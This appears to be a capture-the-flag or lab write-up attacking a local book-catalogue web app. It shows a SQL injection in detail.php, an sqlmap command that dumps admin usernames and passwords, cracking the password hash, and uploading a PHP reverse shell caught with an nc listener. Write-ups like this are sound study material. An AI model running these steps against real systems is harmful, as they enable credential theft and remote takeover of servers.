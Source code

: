 What do you think after see the code ?, yes if you has do review the code before, it's fast for you know what's the vuln on the code. Try SQL Injection using click details in any book.

### EXPLOITATION

| Key          | Fill                                                                                         |
| ------------ | -------------------------------------------------------------------------------------------- |
| Affected URL | http://127.0.0.1/detail.php?id=1                                                             |
| Vuln         | SQL INJECTION                                                                                |
| CWE          | CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection') |

POC
1. Confirm the SQL INJECTION is Valid, base url http://127.0.0.1/detail.php?id=1, try to add http://127.0.0.1/detail.php?id=1 AND 1=1, and see the below

![[Pasted image 20241116150527.png]]

Yes, we confirm that vuln SQLI, next using SQLMAP to dump credential or you can use the manual SQLI to.
Finall payload :
```bash
sqlmap -u "http://localhost/detail.php?id=1" --batch --random-agent -D administrator -T users -C username,password --dump 

```

result

![[Pasted image 20241116150732.png]]

crack the hash, use : https://hashes.com/en/decrypt/hash

and you get the password. 

Login on port 8080 and /administrator

![[Pasted image 20241116152434.png]]

Try upload PHP REV SHELL, you can use : https://www.revshells.com/ and i use tes:tes:tes on filling the title, author and desc

setup listener

```bash
nc -lnvp 9001   
```

success to upload but where the file so that we can trigger the rev shell. Notice in port 80 you can view detail produk

![[Pasted image 20241116152657.png]]

Click view details in tes.
check the listener
